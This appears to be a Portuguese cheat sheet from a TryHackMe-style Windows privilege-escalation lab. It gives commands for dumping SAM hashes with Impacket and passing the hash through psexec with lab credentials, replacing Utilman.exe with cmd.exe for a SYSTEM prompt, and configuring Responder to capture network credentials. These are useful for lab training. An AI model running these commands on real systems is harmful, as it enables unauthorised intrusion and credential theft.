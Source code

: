 ### 📌 Usando FreeRDP e Impacket
```bash
freerdp /u:THMBackup /p:CopyMaster555 /v:10.10.108.141 /cert-ignore /drive:A,/root/Desktop/A
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.108.141
```



## 🛠️ Software sem Patch
### 🔍 Verificação de Software Instalado
```cmd
wmic product get name,version,vendor
```

---

# 🛠️ Exemplos de Exploração

## 🪟 Windows: Utilman.exe
1. Tomar posse do arquivo:
   ```cmd
   takeown /f C:\Windows\System32\Utilman.exe
   ```
2. Conceder permissões:
   ```cmd
   icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
   ```
3. Substituir por `cmd.exe`:
   ```cmd
   copy cmd.exe utilman.exe
   ```
4. Clicar no botão "Ease of Access" para obter um prompt de comando com privilégios de SYSTEM.

---


```
```
# 🛠️ Recursos Adicionais pós-exploração AD
Se estamos dentro de uma máquina na rede podemos tentar captar algo na rede
Configurar o responder (no Kali com tunelamento)
 ```cmd
   nano /etc/responder/Responder.conf
   ```
Definindo os IPs da rede interna:
```bash
RespondTo= 10.10.10.10 11.10.10.10
```
Definindo a interface para o responder:
```bash
responder -I tun5 -Prv
```
